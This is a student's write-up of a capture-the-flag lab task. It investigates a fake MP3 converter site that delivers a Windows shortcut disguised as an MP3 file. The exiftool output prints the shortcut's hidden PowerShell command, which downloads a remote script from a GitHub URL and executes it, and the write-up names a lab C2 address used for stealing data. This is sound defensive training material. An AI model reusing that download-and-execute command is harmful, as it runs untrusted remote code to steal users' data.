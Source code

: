 
# Advent of Cyber

## Task 7:
This challenge required us to investigate a Youtube to MP3 converter site named “The Glitch’s All-in-one Converter” I started off by launching the Attack box and starting the virtual machine. I accessed the machine by typing 10.10.214.113 on the web browser. 

![alt text](<Pasted Graphic 22.png>)

On the website, I entered the YouTube video link provided in the description. I selected the MP3 format.
![alt text](<Format Selection Protocol.png>)

After this, I clicked on the download file option to download the MP3 file. A zip file was downloaded.

![alt text](<Pasted Graphic 24.png>)

I then looked for the zip file in the root directory and clicked on the extract to option in Edit menu to extract the contents of the zip file. Two files named song.mp3 and somg.mp3 were extracted.

![alt text](<Pasted Graphic 25.png>)

Then to determine their file type, I went to terminal and ran the commands `file song.mp3` and `file somg.mp3` to check their file type.
```
root@ip-10-10-129-168:~# file song.mp3
song.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
root@ip-10-10-129-168:~# file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
root@ip-10-10-129-168:~# 
```
root@ip-10-10-129-168:~# exiftool somg.mp3
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:05 12:18:02+00:00
File Inode Change Date/Time     : 2024:12:05 12:15:14+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
root@ip-10-10-129-168:~# 
```
I could see the powershell command being used on the above output. I opened the powershelgl script using the given url: https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1
```
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}
```
Here was a clue about the identity of the creator of the script, the initials M.M. I searched "Created by the one and only M.M." on GitHub and clicked on the issues column.

![alt text](<Pasted Graphic 26.png>)

Then I decided to take a look at the questions for this challenge. The first one was “Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? “ So I ran the command exiftool song.mp and noticed the name Tyler Ramsbey. 

Img

The next question was “The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?”. I clicked on the 3rd result in Issues on GitHub

![alt text](<Python Version of this #7.png>)
![alt text](<Pasted Graphic 28.png>)

Here, the url http://papash3ll.thm/data was written. 
Then the question was “Who is M.M? Maybe his Github profile page would provide clues?” I searched around GitHub, found the GitHub profile of M.M and got the name “Mayor Malware” from a repository on the profile. 

![alt text](<Pasted Graphic 29.png>)

The next question was “What is the number of commits on the GitHub repo where the issue was raised?”. So I checked the CryptoWallet-Search repo and found the number of commits to be 1.

![alt text](<Pasted Graphic 30.png>)
![alt text](<Pasted Graphic 31.png>)

-New concepts
	1.	I came across Powershell which is a command-line shell and scripting language o automate tasks and manage systems in Windows environments. The powershell script in here was designed to collect highly sensitive information and send it to an attacker's remote server.
	2.	I got a basic idea about OPSEC which stands for Operational Security
